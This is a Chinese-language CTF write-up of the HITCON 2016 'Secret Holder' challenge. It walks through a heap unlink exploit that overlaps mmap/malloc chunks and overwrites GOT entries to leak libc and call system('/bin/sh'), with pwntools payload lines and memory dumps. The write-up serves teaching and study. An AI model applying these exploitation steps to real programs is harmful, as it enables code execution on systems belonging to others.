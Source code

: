 # Secret Holder
這題是比賽結束後照著 **bruce** 學長的想法解出來的，過程中除了複習了還不太熟悉的 unlink exploit 也新學到了幾個 heap 的特性，所以也寫一篇來記錄 XD。

## 觀察程式
首先看一下程式提供的幾項功能：
* `keepSecret`：分配 3 種不同大小的空間，並接受對應大小的輸入到該空間
* `wipeSecret`：`free` 掉某個大小的空間
* `renewSecret`：可以重新寫入某個大小的空間

以及程式中 global 段的幾個變數：
```
 0|-------------|
  |             |  # point to allocated 40bytes
  |   big_ptr   |
  |             |
 8|-------------|
  |             |  # point to allocated 4000bytes
  |  huge_ptr   |
  |             |
16|-------------| 
  |             |  # point to allocated 400000bytes
  |  small_ptr  |
  |             |
24|-------------|
  |   big_flag  |  # set to 1 when use keep big secret
28|-------------|
  |  huge_flag  |  # set to 1 when use keep huge secret
32|-------------|
  |  small_flag |  # set to 1 when use keep small secret
  |-------------|
```

## 解題流程

在開始之前要先知道一件事。動態申請的空間到一定的大小後，會使用 `mmap` 來分配，得到的空間將不會在 heap 上。不過當我們 `free` 掉這塊空間後再次分配相同大小的空間，會發現他改用 `malloc` 來分配了！我有試著觀察這個機制，可以參考 [mmap_test](https://github.com/briansp8210/CTF_writeup/blob/master/HITCONCTF_2016_qual/SecretHolder/mmap_test.md)。

於是我們可以利用這點讓 huge 和 small 兩塊 chunk 重疊，並讓 big 接在 small 後面。
接著就可以開始準備做 unlink 的準備，這裡我們打算在 small chunk 裡面造假 chunk，接著 `free` big chunk，目標是在 unlink 後 huge_ptr 會等於 `(&huge_ptr - 0x18)`。
可以透過 renew huge 來寫入要控的值：

```python
renew(3, 'E'*8 + p64(0x21) + p64(huge_ptr-0x18) + p64(huge_ptr-0x10) + p64(0x20) + p64(0xfb0))
```
<pre>
# 我們的目標，huge_ptr = 0x6020a8

small/huge chunk  -> 0x0000000000000000      0x0000000000000031
huge_ptr point to -> 0x4545454545454545      0x00000000000000<b>21</b>
                     0x0000000000<b>602090</b>      0x0000000000<b>602098</b>
       big chunk  -> 0x00000000000000<b>20</b>      0x0000000000000fb<b>0</b>
 big_ptr point to -> 0x434343434343430a      0x000000000000000a
                     0x0000000000000000      0x0000000000000000
                     0x0000000000000000      0x0000000000000000
</pre>

成功之後我們就可以去 renew huge 來把 huge_ptr 蓋成 `free@got.plt`，順便把位址更高的 small_ptr 蓋成 `__libc_start_main@got.plt`。

```python
renew(3, 'F'*24 + p64(free_got) + p64(libc_start_main_got))
```
<pre>
0x602090:              0x4646464646464646      0x4646464646464646
0x6020a0:              0x4646464646464646      0x0000000000<b>602018</b> <- huge_ptr
0x6020b0: small_ptr -> 0x0000000000<b>602048</b>      0x000000010000000a
0x6020c0:              0x0000000000000001      0x0000000000000000
</pre>

接著只要再 renew huge 送 `puts@plt` 進去，就可以將 `free` 蓋成 `puts` 了。
又因為我們剛才把 small_ptr 蓋成 `__libc_start_main@got.plt`，我們可以用 wipe small 來 leak 出 libc address，從而推出 libc base address。

接著，我們再一次用 renew huge 把 `system` 給送上去，這樣就把 `free` 蓋成 `system` 了。然後我們利用 keep small 把 `"/bin/sh"` 寫進 small_ptr。最後，用 wipe small 的時候就會從 `free(small_ptr)` 變成 `system("/bin/sh")`，順利取得 shell！

